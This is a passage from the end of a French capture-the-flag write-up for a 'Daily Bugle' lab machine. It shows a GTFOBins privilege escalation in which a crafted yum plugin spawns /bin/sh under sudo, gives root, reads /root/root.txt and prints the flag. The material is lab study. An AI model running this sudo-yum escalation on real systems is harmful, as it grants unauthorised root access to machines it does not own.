 ```bash
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y

[jjameson@dailybugle ~]$ sudo /usr/bin/yum -c $TF/x --enableplugin=y
sudo /usr/bin/yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# cat /root/root.txt
cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
```

On établit la procédure de gtfobins et on obtient un shell avec les droits root.  
On lit le fichier root.txt dans le répertoire root et on a le flag. 
Le flag est : eec3d53292b1821868266858d7fa6f79   
